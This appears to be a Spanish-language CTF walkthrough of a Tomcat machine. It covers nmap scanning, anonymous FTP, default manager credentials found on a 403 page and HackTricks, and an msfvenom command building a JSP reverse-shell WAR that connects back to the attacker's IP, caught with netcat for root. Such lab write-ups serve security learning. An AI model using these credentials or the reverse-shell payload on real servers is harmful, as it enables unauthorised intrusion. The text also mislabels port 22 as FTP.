






- Tags: #linux #tomcat #InformationLeakage #msfvenom  #FTP 
_______
empezamos la maquina con los escaneos de rutina con nmap los cuales nos reportan que los puertos 22 (FTP) el puerto 8080 por el cual corre un servicio web llamado tomcat.

desde ya nmap nos reporta que el FTP es vulnerable y que podemos acceder sin contraseña utilizando el usuario anonymous, ya dentro nos encontramos el siguiente archivo.
_____

_____
el cual nos dice que si podemos configurar el servidor tomcat ya ha olvidado la contraseña.

si accedemos a la web encontramos lo siguiente.
____

____
hay un boton que nos dice server status y al presionarlo nos pedirá unas credenciales, las cuales no tenemos, pero es aquí donde viene lo interesante puesto que si le damos en cancelar nos aparecerá una pagina con un codigo de estado 403 y con la siguiente información.
____

_____
ahí podemos ver alguna credenciales las cuales probaremos 

credenciales: `tomcat` : `s3cret`

pero no funcionan por lo que buscaremos en la web para ver que encontramos.
______

_____
en la pagina de hacktricks encontramos el siguiente articulo que nos muestra mas credenciales por defecto y la que nos funcionara es la siguiente.

**tomcat : s3cr3t**

con esas credenciales ganamos acceso al panel de admin y veremos los siguiente.
_____

____
en este apartado podemos subir un archivo el cual crearemos con mfsvenom, el archivo es un reverse shell.

para crearlo aplicaremos el siguiente comando:

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.0.8 LPORT=443 -f war -o revshell.war
```

una vez creado lo subimos nos vamos al siguiente apartado.
______

____
lo abrimos, y después le damos al boton reload pero antes de todo ya tendremos que tener el netcat a la escucha. 

si hacemos esos pasos ya tendremos acceso a la maquina y ya de por si estaremos como root.

